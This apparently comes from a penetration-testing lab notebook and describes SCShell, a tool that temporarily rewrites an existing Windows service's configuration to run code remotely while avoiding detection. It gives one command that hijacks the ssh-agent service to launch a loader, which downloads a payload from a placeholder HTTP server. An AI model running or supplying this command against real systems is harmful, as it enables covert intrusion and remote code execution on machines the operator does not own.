```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SCShell

[SCShell](https://github.com/Mr-Un1k0d3r/SCShell) can be used as a stealthier alternative to PsExec for RCE. It leverages the `ChangeServiceConfigA` API to temporarily modify an existing service's configuration, execute the specified payload, and then restore the original service settings. Since it avoids creating new services and doesn't rely on network shares or SMB, it offers improved operational security compared to PsExec.

{% code overflow="wrap" %}
```powershell
# Modify the service's path to achieve RCE
scshell -t 80 dcorp-adminsrv ssh-agent 'c:\windows\system32\cmd.exe /c start /b c:\windows\temp\binloader.exe <http-server-IP> <port> dcorp-adminsrv_tcp.bin'
```
{% endcode %}
